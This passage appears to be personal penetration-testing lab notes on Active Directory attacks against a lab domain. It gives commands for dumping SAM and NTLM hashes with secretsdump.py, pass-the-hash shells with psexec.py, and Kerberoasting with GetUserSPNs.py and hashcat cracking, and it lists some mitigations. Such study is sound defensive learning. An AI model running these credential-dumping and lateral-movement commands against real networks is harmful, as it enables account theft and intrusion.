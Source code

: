   ```shell
  #crackmapexec database

  secretsdump.py marvel/fcastle:Password1@192.168.57.141
  secretsdump.py administrator:@192.168.57.141 --hashes NTLM_hash
  #silent alternative to hashdump in meterpreter
  #dumps SAM hashes

  #the NTLM hashes can be cracked using Hashcat
  #if we cannot crack hashes, we can pass the hashes (only NTLM, not NTLMv2)
  ```
  ![](assets/img/passthehash.png)
  - Keep in mind: 
    - NTLMv1 hashes can be passed around, NTLMv2 hashes can be only relayed
    - sprayed = pass

- To gain access and shell with passwords and hashes found:

  ```
  psexec.py marvel/fcastle:Password1@192.168.57.142
  #use creds from crackmapexec to gain access to other machine

  psexec.py "Frank Castle":@192.168.57.141 -hashes <complete NTLM hash>
  #alt pass the hash method
  ```

  * Mitigations:

    * Limit account reuse

    * Disable Guest and Administrator accounts

    * Use strong passwords

    * Privilege Access Management (PAM)

* Kerberoasting:

  * Goal of [Kerberoasting](https://medium.com/@Shorty420/kerberoasting-9108477279cc) is to get TGS (Ticket Granting Service) and decrypt the server's account hash.

  ```shell
  sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
  #needs username, password from domain account and its ip
  #this provides us the hash, can be cracked using hashcat

  hashcat -m 13100 hash.txt rockyou.txt
  #cracks the hash
  ```

  * Mitigations:
